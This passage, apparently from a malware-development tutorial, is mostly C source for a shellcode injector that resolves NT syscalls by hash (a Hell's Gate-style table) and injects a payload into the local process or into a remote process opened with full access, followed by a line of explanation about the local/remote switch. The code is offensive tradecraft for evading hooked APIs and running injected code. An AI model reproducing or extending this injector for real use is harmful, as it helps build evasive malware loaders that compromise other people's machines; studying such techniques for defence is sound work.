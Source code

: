 ```c
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtAllocateVirtualMemory))
		return 0x1;

	Table.NtWriteVirtualMemory.dwHash = NtWriteVirtualMemory_djb2;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtWriteVirtualMemory))
		return 0x1;

	Table.NtProtectVirtualMemory.dwHash = NtProtectVirtualMemory_djb2;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtProtectVirtualMemory))
		return 0x1;
	
	Table.NtCreateThreadEx.dwHash = NtCreateThreadEx_djb2;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtCreateThreadEx))
		return 0x1;

//--------------------------------------------------------------------------
	// injection code - calling the 'ClassicInjectionViaSyscalls' function


// If local injection 
#ifdef LOCAL_INJECTION
	if (!ClassicInjectionViaSyscalls(&Table, (HANDLE)-1, Payload, sizeof(Payload)))
		return 0x1;
#endif // LOCAL_INJECTION

// If remote injection
#ifdef REMOTE_INJECTION
	// Open a handle to the target process
	printf("[i] Targeting process of id : %d \n", PROCESS_ID);
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PROCESS_ID);
	if (hProcess == NULL) {
		printf("[!] OpenProcess Failed With Error : %d \n", GetLastError());
		return -1;
	}

	if (!ClassicInjectionViaSyscalls(&Table, hProcess, Payload, sizeof(Payload)))
		return 0x1;

#endif // REMOTE_INJECTION

	return 0x00;
}
```

### Local vs Remote Injection

Since the implemented `ClassicInjectionViaSyscalls` can work on both the local process and the remote process level, a preprocessor macro code was constructed to target the local process if `LOCAL_INJECTION` is defined. The preprocessor code is shown below.
